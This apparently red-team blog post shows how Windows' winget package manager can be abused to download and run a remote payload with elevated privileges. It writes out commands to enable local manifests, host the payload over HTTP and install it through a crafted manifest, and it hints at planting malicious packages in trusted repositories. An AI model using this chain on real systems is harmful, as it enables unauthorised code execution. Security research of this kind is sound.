 ```yaml
---
layout: post
title: New Year, New LOLBAS?
description: Abusing Windows Package Manager tool winget.exe
last_modified_at:
author: "@saulpanders"
comments: true
tags: security, red-team
---
```

As a fun way to kick off the new year, here's a quick look at a "mostly useless" LOLBIN/LOLBAS - `winget.exe`. To see it in action, skip to the "Demo" section.

## Window Package Manager Tool
According to Microsoft: "The winget command line tool enables users to discover, install, upgrade, remove and configure applications on Windows... computers."
\
\
In other words, winget allows the user to extend the functionality of their Windows system - and may grant them elevated privileges to do so. \
\
Microsoft created a open source repo dubbed the [Microsoft Community Package Manifest Repository](https://github.com/microsoft/winget-pkgs) where independent and third party vendors can submit manifests for their own applications for consideration into the Microsoft managed package ecosystem.
### Quick Notes
A package manager is a system or toolset used to automate installing, upgrading, configuring and using software. Software Developers often use package manager tools to create specific environments for code execution. \
In this instance, Microsoft is moderating the environment where winget <i>usually</i> discovers and imports its packages from. 

### Facts & Features
Here are a few things that caught my eye when reading about this topic:
- Winget supports the following Installer types: EXE, MSI, MSIX, APPX, BURN, NULLSOFT, INNO
- Winget will trigger UAC for a regular user, not for an admin 
- Winget may show up in a sysadmin's batch scripts 
- Winget accepts a list of multiple packages in JSON format

### Logs
Winget installer saves its logs at the following path: \
`C:\Users\sampleUser\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\DiagOutputDir` \
Or according to MSDN: \
`%temp%\AICLI\*.log`

## Demo
Here's a walkthrough on how to leverage winget to download and execute a remote binary with elevated privileges.

#### Enable Local Manifest Files
To start, we need to tell winget to trust locally-defined manifest files. This step is crucial to circumvent the protections provided by Microsoft's trusted default repos - and therefore may require Local Administrator privileges to accomplish.
```
C:\> winget.exe settings --enable LocalManifestFiles
```
![Enable LocalManifestFiles](/assets/img/2022-01-02-New-Year-New-LOLBAS/enable_local_manifest.png)

#### Create Manifest 
Next, we create the local manifest file specifying our target "package" to install. Winget expects a manifest file in YAML format with certain key fields explicitly defined.
For example, the Installers field has a subfield called InstallerSha256 which requires a SHA-256 hash of the installer file referenced in the manifest. You can find an example manifest file [here](https://gist.github.com/saulpanders/00e1177602a8c01a3a8bfa932b3886b0) or consult [MSDN docs](https://docs.microsoft.com/en-us/windows/package-manager/package/manifest?tabs=minschema%2Cversion-example#tips-and-best-practices) to write your own.
![Demo Manifest](/assets/img/2022-01-02-New-Year-New-LOLBAS/manifest.png)
For this demo I am using a custom PoC written in golang that will print the size of a pointer to the screen, schedule a fiber, and inject shellcode that ultimately spawns calculator as the payload for winget to pull down and execute. 

#### Stage Payload
Now we are ready to stage the payload for our demo. I am using a DigitalOcean Ubuntu 18.04 LTS virtual cloud server as a quick test machine.
For hosting the payload, I like to use Python3's `http.server` module as a super low-effort web server.
```
$ python3 -m http.server 80
```

#### Run Winget
All we have to do now is run winget with our manifest file....
```
C:\> winget.exe install --manifest .\winget-manifest-test.yml
```
![Run Winget](/assets/img/2022-01-02-New-Year-New-LOLBAS/run_winget.png)
... and our payload + calculator arrives.
![Payload Execution](/assets/img/2022-01-02-New-Year-New-LOLBAS/payloads.png)

#### Profit?
The screenshot below demonstrates a view of our processes from ProcessHacker. 
![ProcessHacker](/assets/img/2022-01-02-New-Year-New-LOLBAS/ProcessHacker_view.png)
Notice how our test.exe payload had its name changed to TestInstall.1.0.0.exe, reflecting the information outlined in our manifest file. 
For completeness sake, here is winget's log output from our demo:
![Winget Log](/assets/img/2022-01-02-New-Year-New-LOLBAS/log.png)


### Why "Mostly Useless"?
When considering the viability of this technique on a stealthier engagement like a red team, there are several limiting factors to consider:
* You will have to have enabled the `LocalManifestFiles` setting which means you will need administrative rights. 
* You will need to drop a local manifest file describing the remote payload to disk on the target host.
* SmartScreen may still flag your payload as malicious
\\
Given these considerations, this trick seems more like a novelty than actual tradecraft. Unless, of course, you manage to slip a dirty package into Microsoft's trusted repos... 

## Source(s):
- [MSDN](https://docs.microsoft.com/en-us/windows/package-manager/winget/#production-recommended)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [ProcessHacker](https://processhacker.sourceforge.io/)
- [DigitalOcean](https://www.digitalocean.com/)



		